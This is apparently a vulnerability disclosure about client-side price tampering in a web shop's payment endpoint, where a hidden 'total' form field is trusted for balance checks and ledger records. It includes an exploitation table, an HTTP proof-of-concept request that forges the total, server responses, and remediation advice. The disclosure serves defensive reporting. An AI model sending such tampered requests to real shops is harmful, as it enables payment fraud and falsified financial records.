

# Description

Client-side price tampering (CWE-472). The shop payment page `POST /shop/payment/` includes the order total as a hidden form field (`<input type="hidden" name="total" value="13.22">`). The server trusts this client-submitted value for the balance pre-check (`Shopping/views.py:427-432, 495-497`) and for the recorded payment amount in the session/ledger, instead of recomputing it from the cart's database rows. An authenticated user can set `total=0` to bypass the balance check entirely. The forged value is stored in `session['payment_info']['total']` and reused by `complete_order()` for its second balance check and for the `Bank.Transaction` ledger amount. Note: the actual per-item bank charges in `complete_order()` use database prices and the banking backend re-checks the real balance, so a buyer without sufficient funds still ends up with a `CANCELLED` order (no free goods) — but both balance gates and the payment records are compromised.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Add a product (real total 13.22 NE). | Cart populated. |
| 2 | Submit `/shop/payment/` with `total=0.01`. | Server treats the order total as 0.01 NE. |
| 3 | Submit with `total=0`. | `302 → /shop/payment/loading/` — zero-value order accepted. |
| 4 | `POST /shop/payment/complete/`. | Bank charges the DB price; with insufficient real funds → `302 → /shop/cart/`, "Payment failed: …: Insufficient balance", order `CANCELLED`, ledger entry recorded with amount `0.00`. |

# PoC

```http
POST /shop/payment/ HTTP/1.1
Host: <TARGET>
Content-Type: application/x-www-form-urlencoded
X-CSRFToken: <token>

csrfmiddlewaretoken=<token>&total=0.01&first_name=Test&name=User&email=hunter001@tbox.traced&card_number=1843912794145435&password=Hunter2026!!&pin=123456
```

Server response confirms it used the attacker value for the balance check, not the 13.22 NE cart total:

```
Insufficient funds. Your balance is 0.01 Neuros, but the order total is 0.02 Neuros.
```

(without the tampered field, the same request returns `... but the order total is 2.50 Neuros.` for a 2.50 NE cart).

With `total=0` the pipeline accepts the order: `302 → /shop/payment/loading/`, "Authentication successful. Processing your payment...".

Finalising with `POST /shop/payment/complete/` then fails at the bank (real price charged) and the order is cancelled, but the account ledger (`GET /banking/export/json/`) records the forged amount instead of the cart total:

```json
{"type": "payment", "amount": "0.00", "note": "Order payment failed: Payment failed: Neumorphic Toggle: Insufficient balance", "status": "failed"}
```

From source, a buyer who does have enough funds gets a `COMPLETED` order charged at DB prices, while the ledger entry and the "Payment successful! X Neuros deducted" message use the forged `total`.



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly. |
| Integrity | Balance pre-check bypassed; payment records show attacker-chosen amount instead of actual cart total. Per-item bank charges still use DB prices, but the checkout pipeline accepts the forged total. |
| Availability | None directly. |

Overall severity: **High (integrity)** — affects every authenticated user and every product; balance-check bypass and payment-record falsification.

# Remediation

1. **Recompute the total server-side** from the cart's database rows at payment time; never trust a client-supplied `total`.
2. **Reject any request** whose submitted total ≠ the server-computed total.
3. **Validate amount bounds and monetary precision** against server-side pricing and discount rules before entering the payment pipeline.
4. **Ensure payment consistency** between the server-computed cart total, the recorded order amount and the actual banking charges.
5. **Add regression tests** covering server-side price calculation, amount validation and consistency between order records and banking transactions.

# Author
CHILL HUNT
